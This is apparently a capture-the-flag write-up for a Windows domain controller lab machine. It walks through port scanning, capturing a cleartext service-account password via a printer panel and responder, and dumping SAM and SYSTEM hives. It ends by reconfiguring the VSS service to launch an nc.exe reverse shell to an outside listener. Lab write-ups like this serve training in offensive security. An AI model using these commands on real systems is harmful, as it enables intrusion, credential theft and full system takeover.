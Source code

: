 # Return

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.241 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:24 EDT
Nmap scan report for 10.129.95.241
Host is up (0.0073s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49698/tcp open  unknown
```

### SMB Enum

`enum4linux` returned nothong of interest with both null and guest credentials.&#x20;

### LDAP

`ldapsearch` returns nothing because we have no credentials.

### HTTP -> Printer Creds

There is a HTTP port open, and when viewed, it shows a Printer Admin Panel:

<figure><img src="../../../.gitbook/assets/image (3167).png" alt=""><figcaption></figcaption></figure>

When we view the settings, this is what we see:

<figure><img src="../../../.gitbook/assets/image (1257).png" alt=""><figcaption></figcaption></figure>

This looks poisanable since we can control the server address. As such, I started `responder`.&#x20;

```bash
$ sudo responder -I tun0
LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have some credentials. We can use these to login with `evil-winrm`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3470).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### SeBackupPrivilege Fail

When we check our privileges, we see that we have a lot:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

With this, we can save the `system` and `sam` files, then dump the hashes with `secretsdump.py`.&#x20;

```
reg save hklm\sam c:\users\svc-printer\sam
reg save hklm\system c:\users\svc-printer\system
download sam
download system
```

Afterwards, we can dump hashes:

<figure><img src="../../../.gitbook/assets/image (1678).png" alt=""><figcaption></figcaption></figure>

However, when trying to pass the hash, it seems that this doesn't work.

### Services Exploit

When we check which groups we are part of in the machine, we see that `svc-printer` is part of Server Operators.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We can also check the services running with `services`.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Since we have privileges over some of the services, we can follow this article online to execute a reverse shell via `nc.exe` as `SYSTEM`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

However, it seems that although we have privileges over these services, we cannot restart them for some reason. So we need to find a service that is currently stopped, then change its configuration and start it.&#x20;

Again, we fail in this aspect because we don't have access to the Service Control Manager to view what we can control. So in this case, I used a writeup and saw that they used the VSS service to do the exploit.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query VSS

SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

I wasn't too sure how they got to using this. Anyways, we can configure it like so:

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Windows\system32\cmd.exe /c C:\users\svc-printer\documents\nc.exe -e cmd.exe 10.10.14.13 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

This would create a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (2367).png" alt=""><figcaption></figcaption></figure>
